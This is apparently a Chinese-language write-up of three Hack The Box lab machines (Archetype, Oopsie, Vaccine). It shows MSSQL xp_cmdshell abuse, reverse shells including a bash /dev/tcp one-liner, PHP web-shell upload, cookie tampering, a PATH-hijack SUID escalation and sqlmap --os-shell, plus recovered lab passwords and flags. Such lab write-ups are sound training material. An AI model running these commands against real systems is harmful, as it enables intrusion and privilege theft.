

# Archetype

## task1

Which TCP port is hosting a database server?

哪个TCP端口承载数据库服务器？

nmap开扫

```powershell
┌──(root㉿kali)-[~]
└─# nmap -sV 10.129.90.203                   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 06:54 EST
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.129.90.203
Host is up (4.1s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.93 seconds

```

`1433`

## task 2

What is the name of the non-Administrative share available over SMB?

SMB上可用的非管理员权限的文件名称是什么？

> SMB（Server Messages Block，信息服务块）是一种在局域网上共享文件和打印机的一种通信协议，它为局域网内的不同操作系统的计算机之间提供文件及打印机等资源的共享服务。SMB协议是客户机/服务器型协议，客户机通过该协议可以访问服务器上的共享文件系统、打印机及其他资源。

**看起来和FTP作用差不多？有区别的：**

> ​	
>
> 1. ftp 的优缺点：
>
> - 优点：文件传输、应用层协议、可跨平台
> - 缺点：只能实现文件传输，无法实现文件系统挂载；无法直接修改服务器端文件
>
> 2. Samba 的特性：使用smb/cifs协议、可跨平台、可实现文件系统挂载、可实现服务器端修改文件

这里先从SMB下手使用`-L`命令列出共享文件夹

```powershell
┌──(root㉿kali)-[~]
└─# smbclient -L 10.129.90.203             
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
```

带美元符号的是需要管理员权限，所以本题的答案`backups`

## task 3

What is the password identified in the file on the SMB share?

SMB共享文件中标识的密码是什么？

`M3g4c0rp123`


smbclient -N -L 10.129.233.26（-N表示无密码登录，-L可以查看服务器上可用服务）
通过查找发现在backups目录下存在一个配置文件prod.dtsConfig,将其下载本地进行分析。

```powershell
┌──(root㉿kali)-[/home/kali]
└─# smbclient -N \\10.129.233.26\backups
Try "help" to get a list of possible commands.
smb: > dir
.                                   D        0  Mon Jan 20 20:20:57 2020
..                                  D        0  Mon Jan 20 20:20:57 2020
prod.dtsConfig                     AR      609  Mon Jan 20 20:23:02 2020
	5056511 blocks of size 4096. 2578280 blocks available
 
smb: > get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: > exit

```

从中发现用户名与密码为**password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc**。所以尝试使用其进行mysql数据库登录。

## task 4

What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

可以使用Impacket集合中的哪些脚本来建立与Microsoft SQL Server的身份验证连接？

`mssqlclient.py`

既然获得了账户密码，这里使用kali自带的mssql客户端impacket-mssqlclient来连接靶机上的SQL服务

```powershell
┌──(root㉿kali)-[~]
└─# impacket-mssqlclient ARCHETYPE/sql_svc@10.129.90.203 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 

```

**PS:这里有个特别坑B的东西，下载下来的那个文件里可以看到用户名是`ARCHETYPE\sql_svc`

但是登录的时候他妈的一直失败，看别人的记录发现把反斜杠改成了斜杠。`ARCHETYPE/sql_svc`

我也不知道为啥

## task5

What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

为了生成Windows命令shell，可以使用Microsoft SQL Server的哪些扩展存储过程？

> 输入help指令显示了可用命令，这里的`enable_xp_cmdshell`是允许启用系统cmd命令行的指令。`xp_cmdshell {cmd}`是执行cmd命令的。那这里就先允许启用命令行，然后根据终端上的提示输入重置命令

```powershell
┌──(root㉿kali)-[~]
└─# impacket-mssqlclient ARCHETYPE/sql_svc@10.129.90.203 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

## task6

What script can be used in order to search possible paths to escalate privileges on Windows hosts?

可以使用什么脚本来搜索升级Windows主机上权限的可能路径？

这里尝试cmd能否使用，并且测试是否有nc命令，如果有就可以通过反弹shell建立起一个持续性的shell。

```powershell
SQL> enable_xp_cmdshell
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE
SQL> xp_cmdshell"whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL   
SQL> xp_cmdshell "nc 10.10.16.87"
output                                                                             

--------------------------------------------------------------------------------   

'nc' is not recognized as an internal or external command,                         

operable program or batch file.                                                    

NULL    
```

但是报错显示没有这个命令。但是cmd命令行可以用，那我们尝试传一个nc程序过去。这里是提前在kali里存一个`nc.exe`，然后开启http服务，在靶机里使用wget命令远程下载kali里的文件。这里注意提前将启动http服务的终端进入到存有nc.exe的文件夹里，这样http服务的根目录就是此文件夹，下载nc也更方便。

先查看Kali的IP


然后再kali上开启HTTP服务


> 0.0.0.0是一个非常特殊的IP地址，这个IP相当于[java](https://baike.baidu.com/item/java/85979?fromModule=lemma_inlink)中的this，代表当前设备的IP。

靶机下载kali里的nc文件，注意下载的文件夹，其他的文件夹会因为没有权限下载不进去


```powershell
┌──(root㉿kali)-[~]
└─# nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.16.87] from (UNKNOWN) [10.129.181.116] 49679
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\sql_svc\Downloads>dir 
dir 
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\sql_svc\Downloads

11/28/2022  06:19 AM    <DIR>          .
11/28/2022  06:19 AM    <DIR>          ..
11/28/2022  06:21 AM            45,272 nc64.exe
               1 File(s)         45,272 bytes
               2 Dir(s)  10,709,676,032 bytes free

C:\Users\sql_svc\Downloads>cd ..
cd ..

C:\Users\sql_svc>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\sql_svc

01/20/2020  05:01 AM    <DIR>          .
01/20/2020  05:01 AM    <DIR>          ..
01/20/2020  05:01 AM    <DIR>          3D Objects
01/20/2020  05:01 AM    <DIR>          Contacts
01/20/2020  05:42 AM    <DIR>          Desktop
01/20/2020  05:01 AM    <DIR>          Documents
11/28/2022  06:19 AM    <DIR>          Downloads
01/20/2020  05:01 AM    <DIR>          Favorites
01/20/2020  05:01 AM    <DIR>          Links
01/20/2020  05:01 AM    <DIR>          Music
01/20/2020  05:01 AM    <DIR>          Pictures
01/20/2020  05:01 AM    <DIR>          Saved Games
01/20/2020  05:01 AM    <DIR>          Searches
01/20/2020  05:01 AM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)  10,709,676,032 bytes free

C:\Users\sql_svc>cd Desktop
cd Desktop

C:\Users\sql_svc\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\sql_svc\Desktop

01/20/2020  05:42 AM    <DIR>          .
01/20/2020  05:42 AM    <DIR>          ..
02/25/2020  06:37 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,709,676,032 bytes free

C:\Users\sql_svc\Desktop>type user.txt
type user.txt
3e7b102e78218e935bf3f4951fec21a3
C:\Users\sql_svc\Desktop>

```

还有一问，管理员账户里还有一个flag，那我们这获取的也是普通用户sql_svc的shell，这里需要提权了。Windows提权，通过资料，这里使用一款叫做winPEAS的工具，它会检索整个系统路径，有搞头的路径或文件会被红色文字列出来。这里还是提前准备winPEAS，靶机下载后，在刚才那个已经连上的shell里直接运行。

运行需要一段时间因为在检索整个系统，结束后会标出可利用文件路径


这个ConsoleHost_history.txt是记录了控制台命令历史记录，查看一下


里面记录了管理员账号与密码，kali尝试使用psexec.py脚本连接。psexec 是 windows 下非常好的一款远程命令行工具。psexec的使用不需要对方主机开机3389端口，只需要对方开启admin$共享(该共享默认开启)。但是，假如目标主机开启了防火墙，psexec也是不能使用的，会提示找不到网络路径。由于psexec是windows提供的工具，所以杀毒软件会将其添加到白名单中。

kali自带`psexec.py`，在下面这个路径中


之后进去之后找一找发现Administrator的桌面上有一个root.txt，要找的root用户flag就在里面

```powershell
┌──(root㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─# python3 psexec.py administrator@10.129.6.206
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.6.206.....
[*] Found writable share ADMIN$
[*] Uploading file OdsHoKAi.exe
[*] Opening SVCManager on 10.129.6.206.....
[*] Creating service NNTk on 10.129.6.206.....
[*] Starting service NNTk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd \Users 
 
C:\Users> dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users

01/19/2020  03:10 PM    <DIR>          .
01/19/2020  03:10 PM    <DIR>          ..
01/19/2020  10:39 PM    <DIR>          Administrator
01/19/2020  10:39 PM    <DIR>          Public
01/20/2020  05:01 AM    <DIR>          sql_svc
               0 File(s)              0 bytes
               5 Dir(s)  10,431,676,416 bytes free

C:\Users> cd \Administrator
The system cannot find the path specified.
 
C:\Users> cd Administrator
 
C:\Users\Administrator> cd Destop 
The system cannot find the path specified.

C:\Users\Administrator> cd Desktop
 
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\Administrator\Desktop

07/27/2021  01:30 AM    <DIR>          .
07/27/2021  01:30 AM    <DIR>          ..
02/25/2020  06:36 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,341,208,064 bytes free

C:\Users\Administrator\Desktop> type root.txt
b91ccec3305e98240082d4474b848528
C:\Users\Administrator\Desktop> 
```

# Oopsie


```powershell
┌──(root㉿kali)-[~]
└─# nmap -sV 10.129.207.210
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-28 22:02 EST
Nmap scan report for 10.129.207.210
Host is up (1.1s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.02 seconds

```

那就去网页上看看

但是网页上没有一个地方能点开跳转，那就看看网页源代码，发现有个lofin的script脚本


成功找到登陆页面，但是尝试了许多弱口令后都不行，注入也失败，这里看到登录页面有一个`Login as Guest`，游客登录，我们就以游客登录看看。

登录页面后进入Account选项看看，观察上方的url发现给content=account并且id=2


那就试一下id=1是啥



id =1发现是admin的账户信息，这个页面没啥利用点。其他页面仍然没有啥亮点。Uploads页面的上传功能是我们唯一利用点，但是这里限制了权限，我们就要越权。所以尝试修改cookie以admin权限登录，打开控制台，在储存选项看到有cookie


然后就把role修改为admin，再将user的值修改为之前在account页面看到的acess id 34322，在点击上方的Uploads发现成功进入


上传reverse-shell 

先将此文件中的ip和端口信息修改成本机的，`vim /usr/share/webshells/php/php-reverse-shell.php `

:


现在我们需要访问这个shell 文件，他就会运行代码，但我们不知道上传路径。gobuster有俩模式爆破目录和，dns子域名，所以需要先选择dir模式。–url表示url，–w表示使用哪个爆破字典，-x表示检索哪种文件扩展名，这个可选。这里使用dirb的小字典。

```powershell
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://10.129.207.210 -w /usr/share/dirb/wordlists/small.txt -x php 
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.207.210
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/11/28 23:41:20 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 314] [--> http://10.129.207.210/css/]
/images               (Status: 301) [Size: 317] [--> http://10.129.207.210/images/]
/index.php            (Status: 200) [Size: 10932]
/js                   (Status: 301) [Size: 313] [--> http://10.129.207.210/js/]
/uploads              (Status: 301) [Size: 318] [--> http://10.129.207.210/uploads/]
Progress: 1918 / 1920 (99.90%)===============================================================
2022/11/28 23:43:21 Finished
===============================================================

```

发现就在uploads文件夹下，但是没有权限访问

尝试是否可以直接运行该目录下的文件，首先开启监听端口


url输入**http://10.129.207.210/uploads/php-reverse-shell.php**，成功反弹shell。

使用`python3 -c’import pty;pty.spawn(“/bin/bash”)`可以使得shell更加完整。

由于之前端口扫描发现使用的是apache，其默认路径为`/var/www/html`，所以优先寻找该目录下的文件

通过查找网站中的数据库文件发现用户名与密码**robert：M3g4C0rpUs3r!**

```poweshell
www-data@oopsie:/home/robert$ cd /var
^[[3~cd /var
www-data@oopsie:/var$ cd /www
cd /www
bash: cd: /www: No such file or directory
www-data@oopsie:/var$ cd www
cd www
www-data@oopsie:/var/www$ ls
ls
html
www-data@oopsie:/var/www$  cd html
 cd html
www-data@oopsie:/var/www/html$ ls
ls
cdn-cgi  css  fonts  images  index.php	js  themes  uploads
www-data@oopsie:/var/www/html$ cd cdn-cgi           
cd cdn-cgi
www-data@oopsie:/var/www/html/cdn-cgi$ ls
ls
login
www-data@oopsie:/var/www/html/cdn-cgi$ cd login
cd login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cd db.php
cd db.php
bash: cd: db.php: Not a directory
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:/var/www/html/cdn-cgi/login$ 

```

尝试切换用户，横向移动成功。


通过id 查看（显示用户的ID，以及所属群组的ID）。发现robert属于bugtracker。

通过**find / -group bugtracker 2>/dev/null** 命令查看bugtracker可以操作的文件。发现一个同名文件bugtracker。


发现该文件的所有者为root，且权限带有s，表示SUID (Set owner User ID)。说明该文件执行时是以所有者的身份（即root）运行的。


尝试使用该文件，提示输入bug id，这里随便输入一个1。


再次输入一个数字，发现他是使用cat命令进行打印，如果没有该编号的报告就会报错。这里发现所使用的cat命令没有进行路径指定，所以可以尝试添加环境变量执行我们想要执行的**cat**。

思路：bugtracker本来无权进入root目录的，但是使用了setid，使bugtracker暂时拥有了root权限，并且调用cat命令，直接调用cat命令调的是环境变量中的cat，那我们做一个恶意的cat命令，再把这个恶意的cat命令所在文件夹设置为环境变量，那bugtracker调用的就是恶意cat，具体命令如下：
```powershell
export PATH=/tmp:$PATH				//将/tmp目录设置为环境变量
cd /tmp/							//切换到/tmp目录下
echo '/bin/sh' > cat				//在此构造恶意的cat命令
chmod +x cat						//赋予执行权限
```


之后再进入root文件夹就能顺利找到flag

## task1

With what kind of tool can intercept web traffic?

用什么样的工具可以拦截网络流量？

`proxy`

## task2

What is the path to the directory on the webserver that returns a login page?

网络服务器上返回登录页面的目录的路径是什么？

`/cdi-cgi/login/`

## task3

What can be modified in Firefox to get access to the upload page?

可以在 Firefox 中修改哪些内容以访问上传页面？

`cookie`

## task4

What is the access ID of the admin user?

admin 用户的访问 ID 是什么？

`34322`

## task5

On uploading a file, what directory does that file appear in on the server?

上传文件时，该文件出现在服务器上的哪个目录中？

`/uploads`

## task6

What is the file that contains the password that is shared with the robert user?

包含与 robert 用户共享的密码的文件是什么？

`db.php`

## task7

What executible is run with the option “-group bugtracker” to identify all files owned by the bugtracker group?

使用“-group bugtracker”选项运行什么可执行文件来识别 bugtracker 组拥有的所有文件？
`find`

## task8

Regardless of which user starts running the bugtracker executable, what’s user privileges will use to run?

无论哪个用户开始运行 bugtracker 可执行文件，运行时使用的用户权限是什么？
 	`root`

## task9

What SUID stands for?

SUID 代表什么？

`Set Owner User ID`

## task10

What is the name of the executable being called in an insecure manner?

以不安全方式调用的可执行文件的名称是什么？

`cat`

# Vaccine

先用`nmap -sC -sV`扫，扫出来发信啊开了21ftp服务，22ssh服务，80端口http服务，并且能看到FTP code 为230，表示可以匿名登录。

```powershell
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.87
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

所以使用匿名账户`anonymous`登录，密码随意

```powershell
┌──(root㉿kali)-[~]
└─# ftp 10.129.230.148
Connected to 10.129.230.148.
220 (vsFTPd 3.0.3)
Name (10.129.230.148:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10807|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> 
```

进去后能看到一个名为``back.zip`的压缩包，下载下来，解压需要密码，这里使用kali自带的压缩包密码猜解工具zip2john，先爆出hash值，然后john命令计算就行


黄色的数字就是密码，解压后有两个文件，分别是index.php和style.css

查看index.php，发现里面有密码的MD5值


```
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>

```

放网站里解密后是`qwerty789`

浏览器访问网站，用admin和qwerty789登录，然后进入主页，发现右上角的搜索框输入1后能看到url添加了个参数search=1

怀疑存在SQL注入，使用SQLmap


由于是登录后的界面所以需要正确cookies，否则无法访问。	

执行命令`sqlmap -u http://10.129.230.148/dashboard.php?search=any+query' --cookie="PHPSESSID=73kd3gsc38mlg4ao96cevc20ob"`发现是存在SQL注入的

之后将后面的参数加上 `--os-shell`


成功获取到shell，但是获得的shell是非交互式的，这里采用反弹shell的方式获得一个交互式shell

为了使shell更加稳定和可交互，在本地开启监听服务


原shell执行：`bash -c “bash -i >& /dev/tcp/{your_IP}/443 0>&1”`
